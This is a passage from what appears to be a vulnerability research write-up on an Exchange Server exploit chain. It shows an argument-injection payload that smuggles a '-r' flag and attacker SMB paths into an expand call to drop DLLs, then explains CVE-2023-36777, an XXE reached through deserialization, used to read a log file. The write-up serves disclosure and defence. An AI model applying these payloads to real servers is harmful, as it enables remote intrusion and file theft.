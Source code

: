 The final payload looks like this:

`\192.168.123.104pocf.cab -r \192.168.123.104poci.cab \192.168.123.104poct.cab`

I am:

• Injecting `-r` argument to bypass several protections.  
• Delivering 3 CAB files: one for `FUSE.Paxos.dll`, one for `Ijwhost.dll` and one containing a corrupted file for leaking the GUID.

You may remember that the attacker’s input is first passed to the `File.Exists` method and we need to pass that check. To do that, we need to prepare a tricky SMB share structure. It’s not hard to accomplish, though, and you can prepare such a share either on Windows or Linux.

<figure>

![](https://images.squarespace-cdn.com/content/v1/5894c269e4fcb5e65a1ed623/200c4a21-1b96-4fb0-8abc-9fb91fd2ca05/Picture8.png?format=1000w)

<figcaption>

_Figure 8 - Sample SMB share for exploitation_

</figcaption>

</figure>

Now, `File.Exists` succeeds, because it interprets the argument as a path to a deeply nested `t.cab` file. This deeply nested `t.cab` is of no further interest after we pass the `File.Exists` check. `expand` still sees the argument as a sequence of three separate shallow paths, with the addition of the flag `-r` in between the first two.

With this, we can drop both DLLs to the file system, as well as leak the file write path into one of the Windows log files. The last part to figure out is how to read this log file.

**CVE-2023-36777 – XXE to File Read**

As mentioned in the previous post, the Exchange issues that I previously reported were fixed by adding to the denylist of gadgets. According to that, I was free to use any class for PowerShell deserialization that was still not on the denylist.

I wanted to read the content of `setupact.log` to leak the GUID, and it didn’t take me long to find two classes: `Microsoft.Build.Execution.ProjectInstance` and `Microsoft.Build.Evaluation.Project`. Each defines a single-argument constructor, which we can reach through deserialization. Sample constructor:

The constructors lead to the `Microsoft.Build.Evaluation.ProjectRootElementCache.Get` method:

At `[1]`, a new `XmlDocument` is initialized, and at `[2]`, the XML document from the attacker-controlled path is loaded. As Exchange still runs on an older version of .NET Framework, `XmlDocument` is not protected against XXE by default.

We can store our malicious XML file on the same SMB share as our CAB files. Now, we can use this XXE to read `setupact.log` and retrieve the random name of the directory where the DLLs were dropped.

<figure>

![](https://images.squarespace-cdn.com/content/v1/5894c269e4fcb5e65a1ed623/3d31ae3f-0000-4ed9-bd9a-93e72239268c/Picture9.png?format=1000w)

<figcaption>

